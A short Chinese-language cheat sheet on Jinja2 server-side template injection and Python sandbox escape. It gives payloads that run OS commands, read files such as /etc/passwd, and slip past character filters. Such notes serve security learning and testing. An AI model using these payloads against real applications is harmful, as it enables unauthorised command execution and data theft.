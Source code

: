 ```

[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()


#python3.7
#命令执行
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}

#文件操作 读文件
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}

#执行windows下的os命令
"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()

```



## 一些绕过:

- 过滤了`.`可以用中括号来代替: (获取属性,子类)

  <span style='color:black;background:yellow;font-family:hei;font-weight:bold'>这里调用某个类的方法时: `__init__.__globals__` 和 `__init__['__globals__']` 是一样的, 后者可以使用字符拼接绕过过滤,例如:`__init__['__glo'+'bals__']`</span>

  ```
  ''.__class__  相当于  ''['__class__']
  ```

也可以使用`|attr` 即使用前面的输出作为后面操作的对象:

```
''.__class__ 相当于 ''|attr('__class__')
```



- 过滤`[`中括号

```
[].__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()不起作用:

使用__getitem__, pop来根据键获取值

''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls').read()

''.__class__.__mro__[-1] 相当于  ''.__class__.__mro__.__getitem__(-1)
```
